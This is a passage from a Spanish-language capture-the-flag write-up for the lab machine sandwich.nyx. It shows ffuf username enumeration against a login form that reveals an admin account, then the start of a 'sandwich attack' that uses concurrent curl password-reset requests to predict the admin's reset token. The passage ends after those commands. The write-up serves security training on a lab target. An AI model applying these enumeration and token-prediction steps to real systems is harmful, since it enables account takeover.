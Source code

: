
```bash
$ ffuf -u "http://sandwich.nyx/" -X POST -d "email=FUZZ@sandwich.nyx&password=anyPassword&login_action=1" -H "Content-Type: application/x-www-form-urlencoded" -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -mr "Incorrect password."

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://sandwich.nyx/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : email=FUZZ@sandwich.nyx&password=anyPassword&login_action=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Incorrect password.
________________________________________________

admin                   [Status: 200, Size: 7917, Words: 1855, Lines: 228, Duration: 55ms]
:: Progress: [17/17] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Encontramos que también existe el usuario `admin@sandwich.nyx`.

## Vulneración

> En este writeup se describe la vulneración esperada. Sin embargo, hay una forma más fácil que permite saltarse el ataque sandwich, descubierta por el hacker `he110wor1d`. Su ingenio merece reconocimiento, y puedes encontrar la descripción detallada en su writeup [Writeup he110wor1d](https://www.cnblogs.com/ShowMeTheBug/p/18810217).

### 🥪 Ataque Sandwich 

1. Creamos dos usuarios en webmail.sandwich.nyx y nos registramos con esos mismos dos usuarios en sandwich.nyx (Ej. `user1@sandwich.nyx` y `user2@sandwich.nyx`).

2. Desde sandwich.nyx, seleccionamos `Forgot Password` en este orden (lo más rápido posible):
   1. Recordar contraseña para nuestro primer usuario (`user1@sandwich.nyx`).
   2. Recordar contraseña para el usuario `admin@sandwich.nyx`.
   3. Recordar contraseña para nuestro segundo usuario (`user2@sandwich.nyx`).
   Para hacerlo muy rápido y tener menos "jamón" en el sándwich con nuestros usuarios:
   ```bash
   curl -X POST http://sandwich.nyx/index.php -d "email=user1@sandwich.nyx" -d "reset_action=1" & curl -X POST http://sandwich.nyx/index.php -d "email=admin@sandwich.nyx" -d "reset_action=1" & curl -X POST http://sandwich.nyx/index.php -d "email=user2@sandwich.nyx" -d "reset_action=1"
   ```
